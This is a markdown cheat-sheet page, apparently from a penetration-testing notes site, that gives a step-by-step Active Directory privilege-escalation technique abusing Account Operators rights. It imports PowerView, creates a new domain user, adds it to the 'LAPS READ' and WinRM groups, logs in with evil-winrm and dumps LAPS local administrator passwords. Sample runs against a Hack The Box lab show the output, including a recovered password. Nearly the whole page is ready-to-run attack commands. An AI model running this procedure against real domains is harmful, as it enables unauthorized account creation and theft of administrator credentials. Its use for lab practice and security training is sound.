 ```yaml
---
title: "Account Operators"
date: 2025-7-24
tags: ["Active Directory",  "Privilege Escalation",  "Account Operators",  "Credential Dumping",  "LAPS",  "Group Membership Abuse",  "Evil-WinRM",  "PowerView",  "Windows"]
---
```


### Privesc #1: Create a new user account and add it to LAPS (Local Administrator Password Solution) group

{{< tab set1 tab1 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Import PowerView.ps1 

```console
. .\PowerView.ps1
```

```console {class=sample-code}
*Evil-WinRM* PS C:\programdata> . .\PowerView.ps1
```

#### 2. Create a cred object (runas) \[optional\]

```console
$username = '<DOMAIN>\<USER>'
```

```console
$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
```

```console
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $password
```

#### 3. Create a new user password object

```console
$new_user_password = ConvertTo-SecureString '<NEW_USER_PASSWORD>' -AsPlainText -Force
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\programdata> $new_user_password = ConvertTo-SecureString 'Test1234' -AsPlainText -Force
```

#### 4. Create a new user account

```console
New-AdUser '<NEW_USER>' -enabled $true -accountpassword $new_user_password -Credential $cred
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\programdata> New-AdUser 'alice' -enabled $true -accountpassword $new_user_password -Credential $cred
```

#### 5. Add the new user to LAPS group

```console
Add-DomainGroupMember -Identity 'LAPS READ' -Members '<NEW_USER>' -Credential $cred
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\programdata> Add-DomainGroupMember -Identity 'LAPS READ' -Members 'alice' -Credential $cred
```

#### 6. Add the new user to WinRM group

```console
Add-DomainGroupMember -Identity 'WinRM' -Members '<NEW_USER>' -Credential $cred
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\programdata> Add-DomainGroupMember -Identity WinRM -Credential $cred -Members 'alice'
```

#### 7. Remote as new user

```console
evil-winrm -i <TARGET> -u '<NEW_USER>' -p '<NEW_USER_PASSWORD>'
```

```console {class="sample-code"}
$ evil-winrm -i 127.0.0.1 -u alice -p 'Test1234'              
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\alice\Documents> 
```

#### 8. Read LAPS password

```console
Get-AdComputer -Filter * -Properties ms-Mcs-AdmPwd
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\alice\Documents> Get-AdComputer -Filter * -Properties ms-Mcs-AdmPwd

DistinguishedName : CN=PIVOTAPI,OU=Domain Controllers,DC=LicorDeBellota,DC=htb
DNSHostName       : PivotAPI.LicorDeBellota.htb
Enabled           : True
ms-Mcs-AdmPwd     : 82SD67Cuq34TPZm4mnFo
Name              : PIVOTAPI
ObjectClass       : computer
ObjectGUID        : 98783674-e6a3-4d9e-87e3-efe5f31fabbf
SamAccountName    : PIVOTAPI$
SID               : S-1-5-21-842165252-2479896602-2762773115-1004
UserPrincipalName :
```

{{< /tabcontent >}}
